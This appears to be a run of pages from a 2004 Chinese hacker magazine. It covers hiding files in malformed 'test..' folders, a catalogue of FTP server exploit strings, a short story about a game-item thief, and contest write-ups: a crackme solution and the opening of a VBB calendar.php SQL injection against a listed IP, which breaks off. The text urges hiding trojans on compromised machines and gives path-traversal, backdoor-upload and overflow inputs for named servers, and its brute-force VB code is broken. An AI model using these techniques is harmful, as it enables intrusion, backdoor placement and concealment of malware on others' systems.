现在这些文件隐藏得就更深了，不信你可以看看，看能否看到它们！进入“我的电脑”中，点击“查看(V)”→“文件夹选项”→“查看”→“显示所有文件”（Windows 9x下），或者单击“工具”→“文件夹选项”→“查看”→“显示所有文件和文件夹”（Windows 2000/XP下），本来这样可以查看所有隐藏的文件，但进入隐藏文件的那个回收站后，你什么也发现不了！赶快把你的木马和黑客软件隐藏到这里，并在肉鸡的回收站中用上面的方法建立一个隐藏文件夹，对方一定发现不了！

## 关于特殊文件夹的简单测试

为什么带“.”的文件夹会有这么大的“魔力”呢？

其实，我们是用了一个不合法的文件名来建立了一个特殊的文件夹，该文件夹在Windows下带有一定的特殊性，因此能达到一定的安全效果。为什么我要在“安全”前面加上一个定语“一定的”呢？这是因为用这种方法加密的文件夹并非真的那么牢靠，虽然在Windows下和命令提示符下这个特殊的文件夹中的内容不容易被发现，但利用某些软件就可以看到其中的内容。比如说文件管理软件Windows Commander、看图软件ACDSee就可以显现其中的内容！以ACDSee为例，打开ACDSee，可以看到它的界面与“我的电脑”很相似。找到我们隐藏文件夹的那个G盘下的“test..”文件夹，看，里面的文件也可以看到（见图7）！


点击相应的文件则可以打开，而且你还可以利用ACDSee复制其中的文件到其他文件夹下，所以说这种方法只是具有“一定的”安全性！但对菜鸟来说已经足够了，更重要的是从中我们又学到了一些书本上没有的内容，这才是最大的收获！

另外，是不是ACDSee就是这类“加密”的克星呢？也不完全是。因为用ACDSee虽然可以看到其中的文件，但是却无法删除或移动“test..”和“test.”文件夹（当“test”文件夹不存在时）。当“test”文件夹存在时，我们可以直接删除“test..”文件夹（在Windows的资源管理器中和ACDSee下都可以），但当你按F5刷新之后，你会发现“test..”文件夹又幽灵一般地回来了，我们删除的其实是test文件夹！另外，利用ACDSee的文件管理功能可以复制“test..”和“test.”文件夹到其他磁盘下，但是你会发现你复制的其实是test文件夹。

再试试这类特殊的文件夹在其他常用软件下的反应，首先拿压缩软件WinRAR来做试验，假设test文件夹不存在，运行WinRAR之后，在其主界面的窗口中我们可以看到“test..”和“test.”文件夹（图8），奇怪的是WinRAR把它们识别为“文件”（在“类型”栏中可以看到），而且“类型”栏中“文件”两个字狂闪不已，并且在WinRAR下我们无法通过点击文件夹名字进入“test..”和“test.”中。如果test文件夹存在，则WinRAR可以查看“test..”和“test.”文件夹中的内容，并且把它们识别为文件夹。再有，如果test文件夹不存在，对着“test..”文件夹直接点击鼠标右键，选择弹出菜单中的“添加到test..rar”，无法建立这个RAR文件，会出现一个如图9所示的对话框。如果test文件夹存在，则可以压缩出一个test...rar文件。


接下来拿16进制文件编辑器UltraEdit和WinHex来做试验。运行UltraEdit，单击“文件”菜单下的“打开”，在“查找范围”下拉列表框中找到`G:\test..`文件夹，单击“打开”按钮可以进入该文件夹并看到里面的文件和子目录，单击里面的文件无法打开，会出现如图10所示窗口。


对于“test.”文件夹，UltraEdit无法打开它，会出现与图1一样的对话框。WinHex对于此类文件夹的识别要比UltraEdit要好一些，WinHex不仅可以打开test..文件夹，而且可以随意查看或运行该文件夹下的文件（单击“文件管理器”菜单下的“执行”即可）。可惜的是WinHex同样无法打开“test.”文件夹，在WinHex中点击“test.”文件夹后，WinHex的反应和UltraEdit一样。

下面让我们再试验一下这个特殊的文件夹在Windows Commander中的反应。Windows Commander是一款可完全取代资源管理器的工具软件（下面简称WinCMD）。在WinCMD中可以查看“test..”文件夹下的文件和文件夹。对于“test.”文件夹则无能为力，在WinCMD中点击该文件夹没有任何反应。另外，在WinCMD中可以复制上述文件夹中的文件和文件夹，但不能删除或移动“test..”文件夹和“test.”文件夹。这对于以文件管理功能为强项的WinCMD来说不能不说是一个失败！看来我们建立的这个特殊文件夹还是很强悍的，呵呵。

让我们再试试IE浏览器和Word 2003对于此类特殊文件夹的反应。运行IE，单击“文件”菜单下的“打开”，出现“打开”对话框，在该对话框中单击“浏览”按钮，找到“test..”文件夹，把“文件类型”中的“所有文件”选中，就可以看到该文件夹下的所有内容！用鼠标指向你想查看的文件，点击“打开”按钮将其加载进来，最后单击“确定”按钮就可以打开你想查看的文件！这说明对于IE来说，“test..”文件夹下的内容是可以随意查看的。用IE再打开“test.”文件夹试试，这回没有成功，无法进入该文件夹。

如果test文件夹不存在，则用Word 2003无法打开“test..”和“test.”文件夹，会出现一个对话框提示无法打开该文件夹。注意，在用Word 2003打开“test..”文件夹时弹出的对话框中显示的是“无法打开`G:\test`文件夹”（图11），而用Word 2003打开“test.”文件夹时弹出的对话框中显示的是“无法打开`G:\test.`文件夹”（图12）。


## FTP服务器常见漏洞总结

继《黑防》2002年第6期增刊中analysist的《Web服务器常见漏洞介绍及文章推荐》后，我将这几年收集的几篇针对FTP服务器软件漏洞做一总结，方便大家利用。

FTP服务器软件主要漏洞包括：物理路径泄露、目录遍历、缓冲区溢出、拒绝服务等。其中后三种漏洞危害最大，同时也广泛存在于各类FTP服务器软件中。

## 物理路径泄露

- `LS AAAA....[A×500]`  
  例如：Microsoft IIS FTP Service 3.0/4.0
- `LIST -d AAA....[A×250]`  
  例如：WFTPD 3.00R4、3.00R5、3.00R3、3.0
- `CWD AA...[A×876]`  
  例如：WS-FTP Server 1.0.1.E / 1.0.2.E

## 目录遍历

利用目录遍历漏洞，攻击者能浏览和下载FTP根目录之外的文件。通过一段时间的整理分析，我发现此类漏洞主要出在以下几个命令中：CD、LS、GET、PUT、CWD，主要形式为：

- 1. CD命令：

```text
CD ../../
CD C:\
CD ..../
CD /../
```

例如：Broker FTP 5.9.5.0、TypSoft FTP Server v0.85、WFTPD 3.00.R5

- 2. LS命令：

```text
LS /../*
LS /.../*
```

例如：E-serv 2.8以前所有版本

- 3. GET命令：

```text
GET /../../windows/system.ini
GET /.../windows/system.ini
```

例如：CrushFTP v2.1.4、v2.1.5、v2.1.6；Alex FTP v0.7

- 4. PUT命令：

```text
PUT /../../windows/backDoor.exe
```

或制作一个LNK文件（或BDL文件），put到目标服务器后`CD a.lnk`（`CD a.bdl`）。

例如：Bison FTP V4R1，Argosoft 1.2.2.2

- 5. CWD命令：

```text
CWD /....
CWD */....
CWD ../../
CWD ....
```

例如：RaidenFTPD

## 缓冲区溢出

缓冲区溢出漏洞多出现在以下命令中：LS、LIST、CWD，主要形式为：

## 拒绝服务

虽然拒绝服务攻击是真正黑客高手不屑使用的方法，但有时我们要使服务重启，于是便可利用Win2K默认配置，重启FTP服务。应该说，大部分拒绝服务攻击是利用缓冲区溢出，攻击多出现在以下命令使用中：LS、LIST、USER、CWD、CD，主要形式为：

- `LS */../*/../*/../*/../../......`  
  例如：BSD FTPD、ProFTPD、Microsoft FTPD 5.0
- `LIST ..AA...[A×2048]`  
  例如：TUP SOFT FTP、Nite Server FTPD 1.5~1.7
- `USER AAA...[A×500]`  
  例如：Cerberus FTP Server 1.X、A-FTP [A×2048]
- `CWD ..`  
  例如：Broker FTP Server 5.9.5.0
- `CD a/`  
  例如：WFTPD V3.00R5

通过对上面的分析发现，问题都集中在参数传递上，没有考虑`../`的输入、过长的目录名。从FTP Server设计考虑，绝不可将例如LS、DIR、CD、MKDIR命令直接传递给CMD.EXE执行。在执行put、get、del命令前应检查用户输入，限制长度。

以上是我对一些FTP服务器软件漏洞的总结，当你碰到一个自己手头没有相关介绍的FTP服务器时，按以上思路测试将对你有所帮助，当然最好是你也有相同的软件，反汇编后分析其工作原理。

# 窃贼


文／田田

我是一个贼，一个被你们称为“偷儿”、被你们所不齿的贼！但我不是上街扒钱袋的蟊贼，也不是趁夜色翻墙入室的宵小，我是网贼，专偷在现实生活中摸不着、看不到、和现今的时空不符的东西——网络游戏中的财产与装备。

红宝石、蓝宝石，在显示器屏幕上光彩夺目；金铠甲、银铠甲，使游戏人物身上神采熠熠；还有刀枪剑戟斧钺钩叉……一个个威力无穷，神奇无比。但它们只是在网络中光彩一时，在 0 和 1 组成的虚拟空间中耀武扬威，在我们的现实世界，它们几丝毫用处也没有。

偏就有那么多人喜欢这些劳什子！他们废寝忘食、夜以继日地泡在网上，就是想得到这些打开电脑能看到，关上屏幕就一切化为乌有的东西。为了这些东西，他们几乎成为了网络的奴隶。这些人，以在这些游戏中叱咤风云、所向披靡而获取自信和满足，孰不知游戏是用来消遣的，过分认真就是被套了。

不说了不说了，没有这些人，怎么会有我们的饭碗呢？从这个角度说，他们还是我的“衣食父母”呢。你要知道，林子大了什么鸟都有，偏就有那么一些人，自己不愿意花时间去练级、买装备，却想自己操纵的大侠一下子就拥有超强的力量。要知道，时间就是金钱，想节省时间，好办，拿钱来！于是，就有一些时间不知道怎么打发的傻小子帮他们去拼杀，用自己的时间去换取微薄的钞票。我可不，我有脑子，稍微花费些力气，我获取的物品可比那些光靠傻练得到的东西多得多。

现在的网络号称壁垒森严，尤其是网吧里的那些服务器、装这个墙、那个壁，自以为固若金汤，其实后门多得触目惊心。再加上我手上有几个解码器，拿到他们的密码也不是怎么费事的；但我还是有些良心，我会给他们留下他们最好的东西，拿走足够应付我开销的物品就撤，因为我坚守：贼亦有道。

直到我遇见了叶子。

我是在这个春天的一个周末邂逅她的。当时她正在广场放风筝，那是那天广场上唯一一只蝴蝶风筝，也是唯一飞不到天上去的风筝。看着她一遍又一遍不得法地跑来跑去，我捂着头偷偷地笑。

“喂，你鬼鬼祟祟地笑什么？有本事，你来啊！”

她气势汹汹地冲我喊。

看着她鼻头闪亮的细细的汗珠和一副刁蛮的表情，我决定逗逗她。

“别那么凶啊，你又不是我的野蛮女友，这么简单的风筝都放不起来还不许笑吗？”

她显然是被我的“野蛮女友”的称谓激怒了。我后面说的什么估计都没有听进去。“野蛮？从来没有人敢这么说我！倒是你，坐在一边贼眉鼠眼地偷看人家，就不像个好东西！”

“偷看？满广场就见你一个人东跑到西、从南跑到北，看不到你的人除非是没长眼睛！”

“那也不许你看！看了也不许笑！再说，不跑风筝怎么会飞嘛！就这样，它还是不愿意飞呢——”说到最后，她显然是泄气了。

看她沮丧的样子，我不忍心了。我站起来走到她身边，拿过了她的蝴蝶。

“小心点，别弄坏了！”这个笨丫头，风筝的线都歪歪扭扭了，她不知道整理，就会紧张兮兮地叫。

“是第一次放风筝吧？线歪了，两边不平衡怎么能飞呢？就知道瞎跑一气！”很奇怪，这次她听我的教训居然没有还嘴。

风筝很快被我整理好了，我试了试风向，循着风势松松紧紧地放线，红蝴蝶稳稳地飞到了空中。

“你叫什么？”我问她。

“叶子。”她随口回答，眼睛却只盯着她的宝贝红蝴蝶。

“哇！不用跑，它自己就能飞，我来试试！”她不由分说就抢过了线轴，结果可想而知，蝴蝶就像喝醉了酒一样，在空中摇晃起来。

“快，快救命！”

我是很愿意救蝴蝶的命的，因为这样一来，我可以把这个贪玩的“野蛮”的小丫头揽在怀里，伏在她的耳边教她随风势控制红蝴蝶。等她发觉她几乎是被我半抱在怀里的时候，蝴蝶已经是广场上飞得最高的风筝，而她清秀的脸蛋，也腾同如蝴蝶一样火烧似地红透了。

就这样，我和叶子开始了交往。

我实在是太喜欢她了，喜欢她的活泼，她的直率，还有她改不掉的野蛮脾气。她简直就像闯入我生活的一个古灵精怪的天使，总会带给我太多的惊喜，很快地，她成了我不可或缺的人，每天我都是在等待中度过，等待夜幕能早些降临，等待早些看到她的一颦一笑，等待拉着她的手在城市的街道上游走。

随着交往的加深，我发现叶子是一个兴趣爱好很多的女孩，网络游戏、户外运动、旅游、时装、收藏、音乐，她什么都喜欢，而且都很着迷。逛街的时候，她也似乎对什么都感兴趣，而我也尽我的所有能力来满足她的要求。

我一开始做贼还是游戏的成分居多，卖掉的装备也就是为了有一点锦上添花的零用钱，而和叶子在一起，随着开销越来越大，这些钱就成了雪中送炭的救命稻草。偷盗对于我来说犹如赌博，当你初次接触的时候，它总是如少女般温柔，频传秋波搞得你心痒难耐，而一旦你一往情深地投入它的怀抱，它就毫不犹豫地撕去温情脉脉的面纱，牵着你一步步走向深渊。

渐渐地，我没有办法恪守以往“给玩家留最佳装备”的做法了，而是把他们的装备库清洗一空，这几乎成了每天深夜我必需的工作。我不再去考虑那些费尽心血、杀红了眼睛、熬秃了头顶的玩家们在一觉醒来之后是如何捶胸顿足、痛不欲生，我只希望我的叶子能快乐。

前几天，我在网络上发现一个装备大户，那个叫蓝果的家伙最近似乎不经常上网，但可以看出他泡游戏的时间绝对不短，他所操纵的人物无论是装备还是等级，都是我们这个城市数得着的。嘿嘿，可惜呀，你遇到了我——要是把这些东西掳获，会给我的叶子带来多少张唱片和多少漂亮的裙子呢？她最近说喜欢登山，这一票要是成功了，一套高水准的登山装备是没有问题的。我决定，让这个骨灰级的蓝果变成一个穷光蛋。

经过两个夜晚加一个上午的奋战，我终于成功了。那家伙的装备很快就脱手了，我准备马上去找叶子，带她去登山用品专卖店。

没想到，给我开门的叶子竟然是红肿着眼睛，见到我，索性扑到我怀里大哭起来。

“怎么了？是我不好，我一连两天没有找你，我该打，别哭了，好不好？我这就带你出去买——”

“不是的，你不知道，没有了，都没有了，呜……”

我的一番话不但没有哄好叶子，反而让她更伤心了。

“怎么了？什么没有了？”

“东西，呜……我的所有的钱、衣服和武器，呜……都丢了，呜……”

“什么？你家里进来小偷了？报案没有？别着急，损失多少？”我一边问她，一边环顾四周。奇怪，她的房间依旧清洁规整，不像有人翻动过。我打开衣柜，里面还是五彩缤纷，她的所有衣服都在，包括我最近给她买的那几件。怎么回事？

“我的叶子到底丢了什么？什么衣服？多少钱？什么武器——武器？！你哪里来的武器？！”

看我懵懵懂懂的样子，叶子渐渐止住了哭声，抽泣着说：“不是这些，是网上，是我花了两年的心血，打出来的东西，今天一早，全没有了，我恨死了那个偷我东西的人，呜……”说着，叶子又哭起来。

我听到这些，心有些虚，头有些大：“是——谁啊，那么缺德，等我们抓住了一定给他好看！我们叶子的东西也敢——偷。对了，叶子，你在那个游戏里为自己取的名字叫什么？”

“抓不住了，我恨死他，恨不能咬他几口！知道我叫什么又有什么用？我是不会再去玩了——我叫蓝果，注册的时候性别是男，这样玩起来才过瘾，可惜，现在，什么、都没、没有了。”叶子又抽噎起来。

天啊！我都干了些什么！

我不知道一直别人丢失装备后是什么样子，现在我看到了，却是我心爱的叶子；窃贼，就是我自己……

我知道我作网络盗贼的第一天起，头上就是悬着一把达摩克里斯宝剑，但我一直侥幸躲过。今天，这把剑终于发威，叶子的泪水每一滴都化成利刃，一下一下地割得我体无完肤。

我决定，今后再不做网络窃贼。

但叶子的损失，我又该怎样去弥补？


大家期待已久的真正黑客终于亮相了，看，他全身黑色的披风，黑色的墨镜，黑色的皮鞋，黑色的头发，黑色的牙……啊！怎么牙也是黑色的？！wtf 在服务器旁边突然醒了，原来是个梦，唉，怎么这真正的黑客就藏得这么好呢？都不肯把自己的技术拿出来和大家共享……“老大，老大，实验室被攻破了！快快！……”脚本小子冲上楼，看见 wtf 在服务器旁边睡着了，又不好意思继续冲叫。“什么时候？什么人？过十关了吗？”wtf 劈头问道。“过了过了！还给我们打了电话！叫你接呢！”“走，接电话去！”……

号外号外！黑客现身网络，轻松突破十关限制，获得万元大奖！

# 十关大奖喜迎得主！

## 首发漏洞隆重登场！

本轮实验室设置是最 BT 的一轮了，不知道 wtf 是怎么想的，前七关就跟猜谜一样，不但思路要清晰，连技术都需要五花八门，可苦了一帮过关的朋友们，大家疯狂建群，疯狂学习，疯狂测试——

一边 wtf 嘿嘿笑着，心满意足地看着大家努力，编辑部一帮小编一看 wtf 那样就恨不得咬他几口！还是刘流有胆量，上前去问：“老大，你那前七关搞得那么 BT，怎么弄啊！我都过不去！”边说还边示意大家全过去，要给 wtf 一种压迫感！“嘿嘿，山人自有妙计也！”wtf 眯了眯眼说道，“这轮前七关设置的确有难度，加上和容笑联系过，需要尽量多的知识点和技术，并把这些都融合在一起，要求我们的过关者有很全面的知识，缺一不可！另外，前七关的知识点最容易学习，我们这样做也是为了刺激大家去学习相关的知识，因为这三轮我们基本已经涉及到网页加密的各个方面了，下一轮就不再采用这样的方式了”。“哦，这样说还有点道理……”刘流一边想一边说。“那第八关呢！我搞了三天都没搞出来！那个 crackme 也太难了！icefire 又不给我们讲，就一个人在那里傻笑！”脚本小子忍不住气愤了，“别急，别急，马上就告诉你过第八关的方法。”icefire 慢悠悠地说。“对了，第九关的过关方法也将一起公布！你小子快去研究吧！”脚本小子乐得大叫一声奔向了自己的电脑。

本轮实验室设置是历史以来最难的一次，但是被攻破的时间却最短，甚至连一直没被突破的第十关也被高手搞定了！看来这次的设置让高手感兴趣了，激发了黑客的斗志！

第八关是破解关，除了保护常规的模块外，还加入了一定的算法，而这些算法是我们原来杂志上破解版块涉及到过的，相信长期关注破解的读者能够搞定。第九关是 php 的论坛，这和我们原来的 asp 论坛不同，php 的漏洞是比较难利用的，所以我们特意放上了一个有个小漏洞的 vbb 论坛，方便大家初步利用，但实际上想要过关还是得花非常大的工夫。这两关难度系数比较大，如果给它们定个标准是 8 的话，那第十关就是 9.5 了！嘿嘿。

由前几轮我们得出结论，很少有搞技术的朋友能针对系统方面的漏洞去研究，真正做技术的高手也很难发现系统的漏洞，相反，系统服务提供程序，也就是第三方程序的漏洞最近在网络上非常火热，比如最新的 foxmail 漏洞就是这样，所以我们变通了一下，在第十关上设置了几个常见服务，模拟出最接近真实的服务器环境，希望真正的高手能通过对第三方程序的反汇编自己发现漏洞，进而突破第十关，那才是真正黑客的技术！

第十关我们模拟出真实的环境，并没有公布服务器配置的细节，而且做了一些必要的隐藏，真正的黑客是会充分发挥自己的技术并全面收集需要的信息的！——第十关我们开放了 IIS，并且装了 mysql + php，另外，开放了 FTP 服务，用的是现在漏洞最多的 Serv-U 服务器，但是想利用现在已经公布的漏洞来过关显然是不行的，我们需要的是自己研究、分析出漏洞，并且利用起来，没公布的漏洞才能过关！

同时，我们正在和突破第十关、获得我们万元大奖的朋友保持联系，商量公布漏洞细节，在这期间，实验室继续开放（http://219.237.81.47），但第十关不再记奖，前九关过关朋友请直接给 hacker@hacker.com.cn 发送你的过关录象和详细地址，我们将确认资格并及时发放奖品！2004 年第六期杂志上将隆重公布新的漏洞，并发放奖品！请大家拭目以待！

> Icefire：本轮的第八关破解耗费了我很长的时间，那个 BT 的算法费了好大劲，不过最后还是破解出来了，正要脚本小子请大家吃饭才告诉他，没想到 wtf 做梦的时候竟然发现了个非常非常简单、非常非常 BT 的过关方法！晕！这下没得混了……

## No8 of hacker's lab

## 注册过程分析

文／图 Ligren[NukeGroup]

黑防第八关加入了算法，在反汇编的时候有一些难度，经过几度折腾终于破解成功，下面我们一起来看看过程：

### 第一步 关键点切入

一般情况下注册时，程序需要读取输入的注册信息，所以用 OllyDbg 载入 crackme，下断点 bpx getdlgitem，拦截对话框消息，再按 F9 运行程序，点 help——register 后停在以下位置停下：

```text
00402A8B    >CALL DWORD PTR DS:[<&USER32.GetDlgItem>]
```

这时在代码区上下翻看一下，你会发现共有三处断点，分别是：

```text
00402C53    >CALL DWORD PTR DS:[<&USER32.GetDlgItem>]
00402C73    >CALL DWORD PTR DS:[<&USER32.GetDlgItem>]
```

但还没有出现输入框，为了加快跟踪进度，可以连续按 F9，直到输入框出现为止。出现输入框后，可以看到 check 呈灰色，试着一位位地输入，当输入到第 5 位时 OllyDbg 自动运行后被拦截在以下位置：

```text
00402C53    >CALL DWORD PTR DS:[<&USER32.GetDlgItem>]
```

以上情况说明，我们已经接近了关键代码段。

### 第二步 分析 check 按钮呈灰色的原因

继续按 F9，发现始终都是停在这一行，结合 check 呈灰色及自动运行的现象进行分析，程序是在进行自动扫描，所以得取消这个断点，然后再看运行情况。

取消 00402C53 处的断点，按 F9，输入框再次出现。继续输入设想的信息，如：12345678。你会发现不论输入多少位，check 一直是灰色的，为什么呢？上下翻动代码，会发现这样一段：

```text
00402B80    >PUSH crackme.0040BB14
/String = "12345678"
00402B85    >CALL DWORD PTR DS:[<&KERNEL32.lstrlenA>]
00402B8B    >MOV DWORD PTR SS:[EBP-138],EAX
00402B91    >CMP DWORD PTR SS:[EBP-138],4
00402B98    >JLE crackme.00402C88
```

很明显，代码中的 12345678 是我输入的结果，后面还跟着两个比较，而第二个是与 4 比较，由于我们已经输入了 8 位，故条件应该是已经满足了，所以应该从输入结果的正确性上来分析。由于这段代码进行着动态扫描，跟踪不很方便，改为分析代码。由上下翻动代码可以看到这样的字符串：

```text
00402C34    >PUSH crackme.00409610
/String2 = "2004"
00402C39    >LEA ECX,DWORD PTR SS:[EBP-B0]
00402C3F    >PUSH ECX
00402C40    >CALL DWORD PTR DS:[<&KERNEL32.lstrcmpA>]
```

2004，今年不是 2004 年吗？尝试着输入它。如：200412356，当输入到第 5 位时你就会发现，check 被激活了。因此得出结论，注册码的前 4 位必须是 2004！

### 第三步 分析注册过程

当输入完 200412356 后点按 check，出现出错提示框，说明输入的注册码长度不够合适。如图 1 所示：


再上下翻动代码区，查找出错消息盒，可以很容易地找到对应代码：

```text
00402CEC  > PUSH crackme.0040BB88
00402CF1  > CALL DWORD PTR DS:[<&KERNEL32.lstrlenA>]
00402CF7  > CMP EAX,10
00402CFA  > JE SHORT crackme.00402D1A
00402CFC  > PUSH 0
00402CFE  > PUSH crackme.00409630
00402D03  > PUSH crackme.004095F8
00402D08  > PUSH 0
00402D0A  > CALL DWORD PTR DS:[<&USER32.MessageBoxA>]
```

在消息对话框前有一个长度比较的函数 `<&KERNEL32.lstrlenA>`，其后接着是一个数值比较，原来需要输入 16 个字符。那么重新输入 16 个字符试试？如：1234567887654321，并将断点设在 00402CEC 处，重新输入 2004123456788765，点击 check 按钮后，在 00402CEC 处停下，从 OD 的代码区下方的信息栏中，可以看到如下图 2 的情形：


图 2

缺少了 2004 字样，现在我们就清楚地知道，2004 不过是为激活 check 而设置的，真正的注册码应该是后面的 16 个字符。重新输入 2004123456—7887654321 后直接按 F9，证明分析正确。

通过这一关后，接下来就需要单步跟踪了。以后的步骤改为按 F8，会得到如下计算代码段：

```text
00402D1A  > PUSH crackme.0040C1A0
00402D1F  > PUSH crackme.0040BB88
ASCII "1234567887654321"
00402D24  > CALL crackme.00401210
00402D38  > MOV EAX,DWORD PTR SS:[EBP-144]
00402D3E  > ADD EAX,1
```

```text
00402D41  > MOV DWORD PTR SS:[EBP-144],EAX
00402D47  > PUSH crackme.0040BB54
String = "763002486"
00402D4C  > CALL DWORD PTR DS:[<&KERNEL32.lstrlenA>]
00402D52  > CMP DWORD PTR SS:[EBP-144],EAX
00402D58  > JGE SHORT crackme.00402DAA
00402D5A  > MOV DWORD PTR SS:[EBP-148],0
00402D64  > JMP SHORT crackme.00402D75
00402D66  > MOV ECX,DWORD PTR SS:[EBP-148]
00402D6C  > ADD ECX,1
00402D6F  > MOV DWORD PTR SS:[EBP-148],ECX
00402D75  > CMP DWORD PTR SS:[EBP-148],8
00402D7C  > JGE SHORT crackme.00402DA8
00402D7E  > MOV EDX,DWORD PTR SS:[EBP-148]
00402D84  > MOVSX EAX,BYTE PTR DS:[EDX+40C1A0]
00402D8B  > MOV ECX,DWORD PTR SS:[EBP-144]
00402D91  > MOVSX EDX,BYTE PTR DS:[ECX+40BB54]
00402D98  > XOR EAX,EDX
00402D9A  > MOV ECX,DWORD PTR SS:[EBP-148]
00402DA0  > MOV BYTE PTR DS:[ECX+40C1A0],AL
00402DA6  > JMP SHORT crackme.00402D66
```

用机器码的每一位异或 Hex 字符串的每一个字节。例如，用我输入的注册码与我的机器码计算完后得到的结果为：

```text
28 0E 6C 42 BD 5F 79 1B
```

将其称为密钥[1]。以上的计算告一段落后，以后的部分需要改为按 F7，通过尝试，会来到以下一些关键代码处（图 3）：


图 3

以上是动态地压入对话框密文，内容见图 4。

## 第四步 寻找正确的密钥[1]

CRC 校验值，看程序是否被爆破（图5）。

先回顾一下注册过程：

初始化密钥[1]，将其转化成二进制编码（图6）。

即：注册码——>密钥[1]——>MD5——>字符串。

此 Crackme 的注册思路在此详细说明如下。

整个注册流程是这样：注册码与机器码作简单的运算，开一个线程，比较关键代码是否更改，没有更改则用上面运算值进行 DES 初始化（有一串密钥就在附近这个提示），然后返回。DES 初始化后，就用 DES 解密加密的数据。所以要正确解密必须要找到密钥。DES 的密钥长度为 56 位，在普通的 PC 机上去穷举好像不可行，不过据公布的信息，DES 加密的密钥在 crackme 中只用到前面 3 个字节，后面几位是 0，即类似：xx xx xx 00 00 00 00 00（十六进制），这样穷举就不是很困难。因为 crackme 在初始化密钥后就求它的 MD5 值看它是否与内置的 MD5 值相等，由于 MD5 是不可逆的，要找到密钥，只好用穷举法。

解密对话框中的文字的密文，采用的是编码 +1 法解密。解密过程与密钥[1]无关。如果注册信息正确，则后面会显示如图7提示。

呵呵，高兴的日子就快到了（图8）。

所以要得到正确的注册码，则需要正确的密钥[1]，但由于 MD5 计算的不可逆性，要得到正确的密钥[1]，只能对密钥[1]实行穷举。一共 8 段，每段的取值范围在 00–FF（十进制 0–255），当然你也可以分段穷举。例如，我设计了一段用于穷举的小程序（Visual Basic 代码）：

密钥[1] 的 MD5 加密计算（图9）。

这里是将密钥[1]的 MD5 计算值与内定的密钥[2]的 MD5 计算值进行比较。若相等，则会分别显示相应的提示。如果不等，程序会给出警示。另外，程序也有一处跟踪时的爆破点：

将 JNZ 改为 JE，也可以出现注册成功的提示，如图10所示。

但无法正确解密下一关的地址。

```vb
Private Sub Command1_Click()
    For i = 0 To 255
        For j = 0 To 255
            For k = 0 To 255
                id = Hex(i)
                jd = Hex(j)
                kd = Hex(k)
                If Len(id) < 2 Then id = "0" & id
                If Len(jd) < 2 Then jd = "0" & jd
                If Len(kd) < 2 Then kd = "0" & kd
                shm = id & jd & kd & "0000000000"
                md5 = Md5_String_Calc(shm)
            Next
        Next
    Next
    If LCase(md5) = "0cf49731cbe00100646f0b073564c125" Then GoTo n1
    Debug.Print LCase(md5), j, i, k
    Next k
    DoEvents
    Next j
    Cls
    DoEvents
    Next i
n1:
    Text1.Text = md5
End Sub
```

使用了不很长的时间就发现了正确的密钥[1]，输入后得到了第9关的地址提示信息（图11）。

图11

# 软件加密强度评说

这个 crackme 的加密强度是比较高的，使用了多重加密手段：

- 1. 动态扫描激活按钮加密方法。
- 2. 使用机器码加密方法。
- 3. 密钥 MD5 加密方法。
- 4. 密钥 DES 加、解密方法（用于解密对话框文本）。
- 5. 防止爆破的 CRC 校验。

将这些方法有机地结合起来，形成了强有力的防御措施。一般说来，即使你知道了加密算法也是很难得到正确结果的，除非存在重大的设计漏洞。当然，该 crackme 为照顾广大黑友，特意降低了难度，在设计时就留着可供参考的漏洞。看看我的注册码：2004187eb23a3a3a3a3a，你能想得到密钥的形式应该是什么么？

**icefire：** 关于密钥的形式我来提示一下：加密后的信息成功的 DES 密钥为：{0x22,0x44,0x88,0x0,0x0,0x0,0x0,0x0}，即为 24 位，密钥的 MD5 值为：

```text
0cf49731cbe00100646f0b073564c125
```

由于 DES 用到的密钥是 8 个字节，现在已经知道后面 5 位是 0 了，那么就求前面 3 位的密钥就得到了：

```text
for(num1)
    for(num2)
        for(num3)
        {
            *(num1, num2, num3, 0x0, 0x0, 0x0, 0x0, 0x0)
            0x0对应字节的md5值，如与0cf49731cbe00100646f0b073564c125相等，记录密钥。
        }
num1、num2、num3 为从0-255取值。
```

这个第八关比较简单，涉及到的破解思路，在《黑客防线》2003 年 12 期的《Cracker 初级教程之 CRC32 算法破解》、2004 年 1 期的《Cracker 初级教程之 MD5 算法破解》、2 期的《Cracker 初级教程之 DES 算法破解》都曾经有过详细的介绍，相信读者只要看过这几期的杂志相关文章，再开动你智慧的大脑，一定能够闯过第八关！

**Wtf：** 哎呀，看汇编代码就是头疼，看到一半我就想睡觉了……呼呼，一觉睡醒了就被我发现“漏洞”了！哈哈，厉害吧？！看我来破解：将 crackme 复制一份出来，看着啊！最关键的地方就要到了！——按 F2，把 EXE 改成 TXT，把鼠标移过去，右手食指（如果你是左撇子就左手食指）轻轻地，连续地，不要太粗暴地，温柔地……点两下，打开了吧？往后拉，往后拉，往后拉……哎哟，有没有种想 PK 人的冲动？嘿嘿，不急不急，慢慢来，当你拉动 3/4 的进度条的时候，一段奇怪的中华人民共和国“官方”文字：汉字出现了，答案就在这里：“哇，高手！我对你佩服得……真是五体投地^_^！第九关地址请见：http://www.hacker.com.cn/lab/labhacker3.txt……”哈哈哈哈，长笑 ing，俺也是破解高手哦！——估计是写这个东西的老兄忘了还有我们这样的走“小道”的朋友！无意中给我们留了个“后门”！哈哈！

## tips：MD5算法

MD5 的全称是 Message-Digest Algorithm 5（信息摘要算法），经 MD2、MD3 和 MD4 发展而来，它的作用是把大容量信息在用数字签名软件签署私人密匙前被“压缩”成一种保密的格式（就是把一个任意长度的字节串变换成一定长的大整数）；不管是 MD2、MD4 还是 MD5，它们都需要获得一个随机长度的信息并产生一个 128 位的信息摘要。虽然这些算法的结构或多或少有些相似，但 MD2 的设计与 MD4 和 MD5 完全不同，那是因为 MD2 是为 8 位机器做过设计优化的，而 MD4 和 MD5 则是面向 32 位的电脑。这三个算法的描述和 C 语言源代码在 internet-rfcs 1321 中有详细的描述。

Wtf：第九关是使用的 VBB 论坛，这个论坛是比较安全的 PHP 论坛，前段时间出现过一个小的漏洞，但是无法取得 webshell，而无法取得 webshell 显然不能拿到桌面上过关文件，这里就是入侵思维的体现了，下面来看看突破我们第十关的朋友是如何过第九关的！

# 搞定黑防第九关

文／神秘人

# 管理员密码的获取

到 http://219.237.81.47/labwww/ 一看，是 VBB 论坛，记得前一段时间有个漏洞，calendar.php 存在一个 SQL injection 漏洞，但忘了具体影响哪个版本的了，管它呢，先去看一看再说。访问：http://219.237.81.47/labwww/calendar.php，先创建一个私人事件，http://219.237.81.47/labwww/calendar.php?action=add&type=private ，标题和事件信息随便填一些东西，然后提交。再点编辑，http://219.237.81.47/labwww/calendar.php?action=edit&eventid=1 ，对，就是这个 eventid 没有过滤特殊字符，可以注射一下！

```text
